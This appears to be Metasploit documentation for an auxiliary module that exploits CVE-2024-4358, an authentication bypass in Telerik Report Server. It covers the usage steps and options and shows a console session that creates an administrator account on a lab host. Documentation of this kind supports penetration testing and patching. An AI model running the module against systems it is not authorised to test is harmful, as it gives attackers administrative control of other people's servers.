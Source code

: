 ## Vulnerable Application
This module exploits an authentication bypass vulnerability in Telerik Report Server versions 10.0.24.305 and
prior which allows an unauthenticated attacker to create a new account with administrative privileges. The
vulnerability leverages the initial setup page which is still accessible once the setup process has completed.

If either USERNAME or PASSWORD are not specified, then a random value will be selected. The module will fail if
the specified USERNAME already exists.

## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use auxiliary/scanner/http/telerik_report_server_auth_bypass`
1. Set the `RHOSTS` option
1. Do: `run`

## Options

### USERNAME
Username for the new account. A random value will be used unless specified.

### PASSWORD
Password for the new account. A random value will be used unless specified.

## Scenarios

### Telerik Report Server 8.0.22.225 on Windows Server 2022

```
metasploit-framework (S:0 J:0) auxiliary(scanner/http/telerik_report_server_auth_bypass) > set RHOSTS 192.168.159.27
RHOSTS => 192.168.159.27
metasploit-framework (S:0 J:0) auxiliary(scanner/http/telerik_report_server_auth_bypass) > set VERBOSE true
VERBOSE => true
metasploit-framework (S:0 J:0) auxiliary(scanner/http/telerik_report_server_auth_bypass) > check

[*] Detected Telerik Report Server version: 8.0.22.225.
[+] 192.168.159.27:83 - The target is vulnerable. Telerik Report Server 8.0.22.225 is affected.
metasploit-framework (S:0 J:0) auxiliary(scanner/http/telerik_report_server_auth_bypass) > run
[*] Running module against 192.168.159.27

[*] Creating a new administrator account using CVE-2024-4358
[+] Created account: newton_schmeler:CkiaTtppD4eGUvl7
[*] Auxiliary module execution completed
metasploit-framework (S:0 J:0) auxiliary(scanner/http/telerik_report_server_auth_bypass) > creds
Credentials
===========

host            origin          service        public                private           realm  private_type  JtR Format  cracked_password
----            ------          -------        ------                -------           -----  ------------  ----------  ----------------
192.168.159.27  192.168.159.27  83/tcp (http)  newton_schmeler       CkiaTtppD4eGUvl7         Password

metasploit-framework (S:0 J:0) auxiliary(scanner/http/telerik_report_server_auth_bypass) >
```
